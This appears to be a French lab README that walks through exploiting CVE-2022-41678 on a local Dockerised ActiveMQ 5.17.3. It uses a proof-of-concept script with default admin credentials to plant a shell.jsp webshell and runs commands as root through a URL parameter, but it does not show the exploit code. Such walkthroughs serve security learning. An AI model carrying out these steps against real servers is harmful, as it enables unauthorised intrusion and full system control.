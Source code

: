CVE 2022-41678

Pour commencer, lancez ActiveMQ en arrière-plan dans le dossier activemq_2022 en utilisant:
docker compose up -d

![Capture d’écran 2024-10-29 à 12 50 29](https://github.com/user-attachments/assets/4b41d643-0f8f-428c-8947-7d262ad6d675)

Accédez ensuite à l'interface ActiveMQ dans un navigateur à l'adresse :

http://localhost:8161/admin/

Vous verrez la version d'ActiveMQ, ici (5.17.3) :

![Capture d’écran 2024-10-29 à 12 51 24](https://github.com/user-attachments/assets/e3102a17-2498-43ed-b2f8-6fc7734b9407)

On peut aussi voir la version de activemq dans le fichier docker-compose.yml:

![Capture d’écran 2024-10-29 à 12 52 05](https://github.com/user-attachments/assets/75a8b851-0764-4f93-b1c9-d5dad932761b)


Pour scanner le réseau afin d'identifier les services actifs et leurs versions avec la commande :
nmap -p- 192.168.1.145

![Capture d’écran 2024-10-29 à 12 52 53](https://github.com/user-attachments/assets/25f4b9ef-635b-4b9a-9c9d-45d6ca0e4f06)

Pour exploiter la vulnérabilité de ce CVE, nous allons executer le code poc.py à l'aide de cette commande:
python3 poc.py -u admin -p admin http://localhost:8161
Cela va envoyer une requête malveillante et ouvrir un webshell

![Capture d’écran 2024-10-31 à 15 27 10](https://github.com/user-attachments/assets/c0103ec8-63c1-4ff0-964e-90c0822ae66d)

Ensuite, il faut copier le lien sur un navigateur web pour acceder au webshell:
http://localhost:8161/admin/shell.jsp?cmd=id

Et nous tombons sur cette page:

![Capture d’écran 2024-10-31 à 15 28 32](https://github.com/user-attachments/assets/382cbb6d-b317-4f18-9faf-e4cdcce70a63)

On peux voir une confirmation que le shell est actif en montrant que uid=0(root) gid=0(root) groups=0(root) s'affiche :


![Capture d’écran 2024-10-31 à 15 31 39](https://github.com/user-attachments/assets/9b84720c-4359-453e-86f3-edb637c67039)

Nous allons maintenant verifier que le shell.jsp a bien été injecté:
Dans un premier temps nous allons ecrire cette commande pour rentrer dans le container:
docker exec -it 0c0a0ab1df64 /bin/bash
![Capture d’écran 2024-10-31 à 15 40 59](https://github.com/user-attachments/assets/ee668944-b29f-4b7e-a323-a812d2445003)

Ensuite, nous nous dirigeons dans le dossier admin où le fichier shell.jsp doit être injecté:
cd /opt/activemq/webapps/admin/
![Capture d’écran 2024-10-31 à 15 41 42](https://github.com/user-attachments/assets/33206ee1-aeeb-4758-83f6-04286460ed72)

et ensuite nous verifions que shell.jsp est bien present:
![Capture d’écran 2024-10-31 à 15 39 22](https://github.com/user-attachments/assets/06ea52ec-ef9a-4705-a416-30c6b62f00f4)

Pour être sûr que le fichier shell.jsp contient bien le shell, ouvrez-le avec la commande suivante
![Capture d’écran 2024-10-31 à 15 40 10](https://github.com/user-attachments/assets/6953fdea-10b1-4a3c-b2be-47962d3af384)

Cette étape montre clairement que le fichier shell.jsp a bien été injecté et est prêt pour une exploitation.




